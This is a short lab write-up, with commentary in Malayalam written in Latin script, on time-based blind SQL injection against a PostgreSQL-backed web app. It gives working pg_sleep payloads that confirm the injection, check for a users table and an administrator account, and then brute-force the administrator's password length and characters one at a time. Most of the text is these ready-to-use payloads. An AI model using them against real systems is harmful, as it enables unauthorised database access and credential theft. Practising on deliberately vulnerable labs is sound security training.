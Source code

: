 	Lab-5.d(practical-Blind SQLi with time delays and information retrieval)
	
-->first we need to confirm the parameter is vulnerable to sql i
    -->use '  ,-->use '+||+pg_sleep(5)--
-->second confirm that the users table exist in the database.so athinayi nammal time delay vekunu.so if time delay aakunengi exist allengil alla enna reethiyil aakiyamathi
   -->'+||+(select+case+when+(1=1)+then+pg_sleep(10)+else+pg_sleep(-1)+end)--;
-->ini administrator enna username undon nokam:
   -->'+||+(select+case+when+(username='administrator')+then+pg_sleep(10)+else+
        pg_sleep(-1)+end+from+users)--;
		ivide users enna tablil administrator enna username undon nokunu.so ee query 10 second sleep akunundenki true aan
-->ini namuk password enumerate chyam.first passwd length enumerate chyam:
     -->'+||+(select+case+when+(username='administrator'+and+LENGTH
	 (password)>25)+then+pg_sleep(10)+else+pg_sleep(-1)+end+from+users)--;
	 -->ivide 10 second delay ila so athinartham passwd length 25 nekal kuravan.ith nammal nerethe chythathpole bruteforce chyth kandupidikam
-->ipol passwd length kiti ini passwd charecters kandupidikam:
   --> '+||+(select+case+when+(username='administrator'+
and+substring(password,1,1)='a')+then+pg_sleep(10)+else+pg_sleep(-1)+end+from+users--;
-->ini nerthe pole bruteforce chyth password kandupidikuka.ok
